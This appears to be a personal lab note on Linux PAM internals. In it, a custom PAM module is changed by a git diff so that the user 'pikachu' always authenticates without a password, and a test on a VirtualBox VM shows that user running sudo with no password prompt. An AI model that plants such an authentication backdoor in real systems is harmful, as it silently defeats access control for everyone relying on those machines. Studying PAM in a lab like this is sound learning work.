 * when `pam_start()` gets called, it creates a handle. This handle should be used to get data directly but use `pam_get_item` and `pam_set_item` instead, at least according to the man pages from `pam_start()`

According to logical flow of how PAM works, our application will call `pam_authenticate()` which will route to the a PAM method `pam_sm_authnenticate`

### LOGGING
* pam_warn.so - should use to send a syslog message to auth.notice

### Modification to PAM to allow the user pikachu login automatically as proof that we replace sudo
---
```
zaku@zaku-VirtualBox:~/simple-pam$ git diff
diff --git a/src/mypam.c b/src/mypam.c
index 31b3247..e6d5985 100644
--- a/src/mypam.c
+++ b/src/mypam.c
@@ -22,6 +22,12 @@ PAM_EXTERN int pam_sm_authenticate( pam_handle_t *pamh, int flags,int argc, cons
        retval = pam_get_user(pamh, &pUsername, "Username: ");
 
        printf("Welcome %s\n", pUsername);
+    printf("This is a simple PAM says Pikachu\n");
+    
+    if (!strcmp(pUsername, "pikachu")) {
+        printf("Pikachu has backdoor\n");
+        return PAM_SUCCESS;
+    }
 
        if (retval != PAM_SUCCESS) {
                return retval;
```
**TEST:**
Check if user exists
```
zaku@zaku-VirtualBox:~$ cat /etc/passwd | grep pikachu
pikachu:x:1001:1001:Pikachu,,,:/home/pikachu:/bin/bash
```

Add user to sudoer group:
```
usermod -aG sudo pikachu
```

Now try to run sudo:
```
zaku@zaku-VirtualBox:~$ whoami
zaku
zaku@zaku-VirtualBox:~$ su pikachu
Password: 
pikachu@zaku-VirtualBox:/home/zaku$ whoami
pikachu
pikachu@zaku-VirtualBox:/home/zaku$ sudo echo "This is a test on echoing as sudo"
This is a test on echoing as sudo
```
**[success] - Does not ask for password unlike for other users
